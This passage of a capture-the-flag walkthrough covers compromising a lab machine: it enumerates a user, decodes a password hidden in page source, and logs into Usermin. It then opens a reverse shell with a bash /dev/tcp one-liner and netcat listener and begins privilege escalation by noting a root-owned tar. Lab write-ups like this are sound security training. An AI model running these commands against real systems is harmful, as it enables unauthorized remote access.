 Using the command `enum4linux -a 10.38.1.114` we find a user called cyber on the network.

<img width="955" height="888" alt="image" src="https://github.com/user-attachments/assets/66592f36-295f-4107-a7ad-d762d4c8c34c" />

Reviewing the source code of the apache website (by right clicking your mouse and clicking the view page source) we find a brainfuck program when we scroll all the way down.

We can use a decoder to decode the program to a readable language, for this we can search `brainfuck decoder` on the browser (if the browser does not load you could save the machine state and on the virtual box application change the network settings to bridged adapter MAKE SURE TO CHANGE AFTER DECODING THE PROGRAM)
I used https://www.dcode.fr to decode the program. Paste the code and hit execute this returns the password `.2uqPEfj3D<p'a-3`.

<img width="955" height="847" alt="image" src="https://github.com/user-attachments/assets/16805276-13d7-4b58-bba4-595b8e9b2906" />

Using the username `cyber` and the password `.2uqPEfj3D<p'a-3` we can login to the usermin web page.
On logggin in we find a command shell on the bottom. We can execute `ls` to see the files and directories on the machine.

<img width="581" height="190" alt="image" src="https://github.com/user-attachments/assets/e4364345-28ee-44a3-b1e2-93be9f11cd60" />

Here, we find the first flag `user.txt`.

Now we can set up a reverse shell using the command `bash -i>& /dev/tcp/10.38.1.110/4242 0>&1` on the target and have a listener `nc -lnvp 4242` on the host machine.
Go to the usermin tab, select login and select the command shell.

<img width="1920" height="712" alt="image" src="https://github.com/user-attachments/assets/56502b61-e153-42e5-adc9-56526d0bc435" />

<img width="724" height="140" alt="image" src="https://github.com/user-attachments/assets/dd3f87ce-266a-405f-9494-283ab9396357" />

To make the terminal interactive run `python3 -c "import pty;pty.spawn('/bin/bash')"`.

## Step 3 : Priviledge Escalation

First we need to find what kind of priviledges we have and by running `sudo -l` we find that even sudo has not been installed.

<img width="538" height="78" alt="image" src="https://github.com/user-attachments/assets/bd27afa4-8603-4178-953e-d39c014b4758" />

This means that we will have to do this locally.

Run ` ls -al` to see all the directories and files on the machine.

<img width="955" height="305" alt="image" src="https://github.com/user-attachments/assets/48f0a26e-9190-4df7-991a-182f48359608" />

Here we find that `tar` has root priviledges, take note of this.

We could also run `ls -al /var` to look for additional files and directories. Here we find a backups directories.

<img width="955" height="226" alt="image" src="https://github.com/user-attachments/assets/62a2642f-967f-48f4-899a-c80c2f0960e5" />
